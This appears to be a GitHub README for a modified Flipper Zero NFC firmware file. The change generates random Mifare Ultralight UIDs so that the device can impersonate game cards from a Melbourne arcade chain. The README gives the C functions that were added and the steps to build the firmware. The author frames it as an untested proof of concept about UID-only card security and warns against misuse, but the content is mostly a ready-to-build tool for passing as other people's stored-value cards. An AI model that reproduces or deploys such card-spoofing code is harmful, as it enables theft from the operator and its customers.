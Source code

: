 # flipper_NFC_gamecard_hack


In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW THE INSECURITY OF ONLY USING THE UID IN A CARD BASED MONEY SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID NON EXPIRED CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.

Please note that I cannot program in C or C++ or any form of C programming. I can do python, AutoIT, Arduino, Bash and Batch but I'm waaaaay out of practice. This is just hacked up using what was already there in the unleashed firmware. The file is prob different in OG, Roguemaster or any other firmware you want to use.

Instructions:
Copy this file over the top of the original file located ``` lib/nfc/helpers/ ``` and build the firmware. tested with unleashed unlshd-020

Once the new compiled firmware is loaded onto the flipper go to Menu -> NFC -> Add Manually -> Mifare (Timezone)

Do not copy to the flipper. nothing will change.


My changes to the original file are below.

Added: 

```
static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```
static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```
static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // Theres some carry over data between the few cards I have here. This data is below.
    memset(&mful->data[9], 0x48, 1);
    memset(&mful->data[10], 0xF0, 1);
    // There looks to be some random data for bytes 16 to 31. 
    furi_hal_random_fill_buf(&mful->data[16], 16);

}
```

```
static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
};
```

And added ``` &mf_tz_generator, ``` to ``` const NfcGenerator* const nfc_generators[] = { ```
